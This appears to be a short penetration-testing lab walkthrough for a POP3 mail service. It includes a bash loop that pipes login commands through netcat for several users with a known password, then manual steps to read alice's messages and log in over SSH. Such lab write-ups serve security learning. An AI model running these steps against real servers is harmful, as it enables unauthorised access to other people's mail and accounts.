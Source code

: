 Continuing from [[Port 4555 - James]]

#### POP3.sh

---
```bash - kali
for user in alice bob carlos david earl frank; do

 (echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $TARGET 110; done
```

```bash - kali
chmod +x pop3.sh
```

```bash - kali
./pop3.sh
```

---

If script above does not work, do manually:

We see alice has 2 messages.

```bash - kali
nc -nvC $TARGET 110
```

```bash - kali
USER alice
```

```bash - kali
PASS abcd
```

```bash - kali
RETR 1
```

```bash - kali
RETR 2
```

```bash - kali
ssh alice@$TARGET
```
